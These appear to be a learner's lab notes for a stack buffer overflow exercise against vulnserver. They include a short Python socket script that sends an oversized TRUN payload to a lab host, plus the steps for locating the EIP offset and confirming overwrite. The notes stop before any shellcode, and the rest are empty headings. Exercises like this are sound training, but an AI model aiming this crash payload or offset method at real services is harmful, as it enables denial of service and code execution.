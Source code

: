     https://z3r0th.medium.com/a-simple-buffer-overflow-using-vulnserver-86b011eb673b
_________________________________________________________________________________________________________________
### Static Analysis
#### Performing basic analysis
    strings secureserverind.exe | more
    file secureserverind.exe
_________________________________________________________________________________________________________________
### Running the program
#### Checking the ports to see if the port we identified is listening
    netstat -antot
_________________________________________________________________________________________________________________
### Using linux to make script
#### Script is to create socket to connect to the program we identified
    vim winbuff.py
```
#!/usr/bin/env python

import socket

buf = "TRUN /.:/"
buf += "A" * 5000

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ## Creating Socket, IPv4 TCP
s.connect(("192.168.65.10",9999)) ## Define host and port
print s.recv(1024) ## Print to screen the response
s.send(buf) ## Send variable buf
print s.recv(1024) ## Print to screen the response
s.close() ## Close the socket
```
_________________________________________________________________________________________________________________
### Run immunitydebugger as admin
#### File > attach > select instance > attach > click run/red arrow
_________________________________________________________________________________________________________________
### Use the site to generate 5000 characters
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### Copy and paste in the script replacing the "A" and dropping the * 5000
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and hit run again
#### Then rerun the script
_________________________________________________________________________________________________________________
### Next copy the EIP and paste into the register value
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### To find the offset 2003
_________________________________________________________________________________________________________________
### Next update the script by deleting the 5000 generated characters and adding the two lines below
#### buf += "A" * 2003
#### buf += "BBBB"
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and run again
#### Make sure the script it saved and run it again, should get back 42424242 in the EIP field
_________________________________________________________________________________________________________________
### Can delete the "BBBB" line, just to ensure it ran properly
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
